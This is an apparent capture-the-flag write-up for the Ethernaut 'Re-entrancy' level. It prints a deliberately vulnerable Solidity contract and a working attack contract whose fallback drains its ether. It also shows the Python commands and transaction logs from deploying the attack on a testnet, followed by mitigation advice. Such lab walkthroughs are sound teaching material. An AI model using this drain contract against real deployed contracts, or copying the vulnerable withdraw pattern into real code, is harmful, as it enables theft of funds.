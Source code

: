 # 10 - Re-entrancy

## Challenge

The goal of this level is for you to steal all the funds from the contract.

Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## Summary

As hinted by title, this is the classic re-entrancy attack. [Solidity by Example](https://solidity-by-example.org/hacks/re-entrancy/) has a good summary of the bug. I will briefly explain the attack here.

The vulnerability happens here:

```js
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value:_amount}("");
        if(result) {
            _amount;
        }
        balances[msg.sender] -= _amount;
    }
}
```

Suppose attacker deploys an attack contract `A`. 

`A` has an `attack` function which does the following things:
- Calls `Reentrance.donate` to donate some ether to `Reentrance`.
- Calls `Reentrance.withdraw` to withdraw the ether. 

The `withdraw` function will call `A`'s fallback function, which is implemented intentionally such that it will call `Reentrance.withdraw` again. This will repeat until `Reentrance` runs out of ether. In this way, `A` can withdraw (a lot) more ether than it has donated. This is the basic idea of re-entrancy attack.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x79Bd05D46270657F42150bde9B259649E39D207F'
```

First, we need to deploy the attack contract `A`. It needs an `attack` function and a fallback function. The fallback function will call `Reentrance.withdraw` again.

```js
> await getBalance(contract.address)
'0.001'
```

From this we come to know currently the balance is 0.001 ether, or 1000000000000000 wei. Withdraw amount should be equal to this.

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrance {
    function donate(address _address) external payable;
    function withdraw(uint _amount) external;
}

contract Attack {
    IReentrance reentrance;
    uint amount;

    constructor(address _address) public {
        reentrance = IReentrance(_address);
        amount = 1_000_000_000_000_000;
    }

    // Fallback is called when Reentrance sends Ether to this contract.
    fallback() external payable {
        if (address(reentrance).balance > 0) {
            reentrance.withdraw(amount);
        }
    }

    function attack() external payable {
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(amount);
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['Attack']
>>>
>>> contract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> contract.deploy(contract_addr)
2023-06-14 22:10:14.076 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-06-14 22:10:36.185 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x1beA1704b79d436c5CA00690A6bc130dC1456071
```

Call into `attack`:

```py
>>> contract.functions.attack().send_transaction(value=1000000000000000)
2023-06-14 22:12:34.782 | INFO     | cheb3.contract:send_transaction:236 - (0x1beA1704b79d436c5CA00690A6bc130dC1456071).attack transaction hash: 0xe0d5be2fe74d031354da5f6ca8d6520a28a1f4d3b7e17355bce416ff8d2ee47d
AttributeDict({'blockHash': HexBytes('0xa3f4bf4d6f3458e2127a336807a81772c5a7e8bdf2086e8f9f18407a92727962'), 'blockNumber': 9181233, 'contractAddress': None, 'cumulativeGasUsed': 8509595, 'effectiveGasPrice': 724, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 75786, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x1beA1704b79d436c5CA00690A6bc130dC1456071', 'transactionHash': HexBytes('0xe0d5be2fe74d031354da5f6ca8d6520a28a1f4d3b7e17355bce416ff8d2ee47d'), 'transactionIndex': 58, 'type': 0})
```

We expect `Attack` to first withdraw 0.001 ether, then in its fallback withdraw another 0.001 ether. So the balance of `Reentrance` should be 0 after this.

Finally, submit the instance to pass the level.

## Afterword

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that call will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.